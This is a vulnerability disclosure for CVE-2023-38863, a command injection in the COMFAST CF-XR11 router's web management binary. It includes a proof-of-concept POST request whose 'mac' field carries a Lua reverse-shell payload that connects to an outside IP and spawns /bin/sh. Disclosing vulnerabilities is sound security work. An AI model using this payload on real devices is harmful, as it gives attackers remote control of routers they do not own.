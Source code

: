 # CVE-ID

[cve-2023-38863](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38863)

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_410074`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `ifname` or `mac` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_410074`, the program uses function `blobmsg_parse` to obtain the content of parameter `ifname`, `mac`  which are sent by `POST` request. On line 24, the attacker can complete command execution by controlling the `ifname`  or `mac` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc HTTP/1.1
Host: 192.168.0.1
Content-Length: 172
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-65dafb23
Connection: close

{"ifname":"127.0.0.1",
	"mac":
"1 `lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)


